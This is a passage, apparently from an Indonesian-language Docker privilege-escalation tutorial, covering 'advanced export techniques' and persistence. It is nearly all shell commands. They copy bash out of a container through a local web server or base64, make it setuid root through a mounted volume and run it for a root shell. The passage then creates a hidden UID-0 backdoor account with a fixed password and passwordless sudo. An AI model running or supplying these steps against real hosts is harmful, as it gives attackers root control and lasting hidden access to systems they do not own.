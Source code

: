 ## 🔧 STEP 6: Advanced Export Techniques

### 6.1 Technique 4: Web Server Export

#### 6.1.1 Start Web Server dalam Container
```bash
docker run -d --name web-export -p 9090:8000 production-app /bin/bash -c "
    cd /tmp
    cp /bin/bash .
    python3 -m http.server 8000
"
```

#### 6.1.2 Download dari Host
```bash
wget -O /tmp/.web-bash http://localhost:9090/bash

# Set permissions via docker
docker run --rm -v /tmp:/mnt production-app chmod 4755 /mnt/.web-bash

# Execute
/tmp/.web-bash -p
```

### 6.2 Technique 5: Base64 Encoding Export

#### 6.2.1 Encode di Container
```bash
docker run --rm production-app /bin/bash -c "
    base64 -w 0 /bin/bash
" > /tmp/bash64.txt
```

#### 6.2.2 Decode di Host
```bash
cat /tmp/bash64.txt | base64 -d > /tmp/.b64-bash

# Set permissions
docker run --rm -v /tmp:/mnt production-app chmod 4755 /mnt/.b64-bash

# Execute
/tmp/.b64-bash -p
```

---

## 🛡️ STEP 7: Persistence & Post-Exploitation

### 7.1 Create Backdoor User
```bash
# Sekarang sebagai root dari privilege escalation
useradd -m -s /bin/bash -u 0 -o -g 0 sysadmin
echo "sysadmin:P@ssw0rd123" | chpasswd

# Tambahkan ke sudoers
echo "sysadmin ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```
